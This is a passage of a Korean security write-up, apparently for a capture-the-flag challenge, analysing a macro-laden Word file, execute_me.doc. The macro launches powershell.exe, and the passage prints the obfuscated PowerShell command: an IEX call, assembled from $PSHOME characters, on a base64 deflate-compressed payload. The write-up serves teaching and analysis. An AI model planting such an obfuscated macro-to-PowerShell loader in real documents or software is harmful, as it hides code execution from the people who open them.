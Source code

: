 ![Untitled](/assets/2022-01-01/BISC%2040.png)

상단의 보기 → 매크로 → 매크로 보기 → 매크로 선택 → 편집을 누르면 해당 `execute_me.doc`에 포함된 VBA 매크로를 확인할 수 있습니다. 

![Untitled](/assets/2022-01-01/BISC%2041.png)

`Execute` 함수 맨 마지막 줄을 보면 Create Process를 하여 `powershell.exe`를 실행시키는 것을 확인할 수 있습니다. 

`powershell.exe`에 `-c` 옵션을 주면 실행시킬 명령을 인자로 줄 수 있습니다. 

### 2.2.2 powershell 스크립트 역난독화

---

인자로 들어가는 powershell 명령어가 난독화되어 있기 때문에 역난독화를 진행해주어야합니다.

```powershell
&( $PShOmE[4]+$PSHOMe[34]+'X')( neW-OBJeCT  iO.comPrEsSion.deFlatESTrEaM( [sYstEM.IO.MeMORYsTrEAm][SyStEM.coNVErt]::FRombase64stRIng('DcS9DoIwEADgV2GjHbx6F/oHozq44OCg61UKQkgx5hJeX7/hu16elVJ93g+3tOSXVH0WeOR0WudcRMN528u68XCX71wmVb9FPq0xRASIHvAYgdC2obHBYBzJWmR2TINzI7vGcfD+fwqJYq119wM=' ), [io.compreSSIOn.comprEsSiOnMoDE]::DecOmPreSS ) | % {neW-OBJeCT  systeM.iO.StREaMreAdeR( $_, [SYsteM.tEXt.enCodIng]::aScII )}| % {$_.reaDToenD( )} )
```
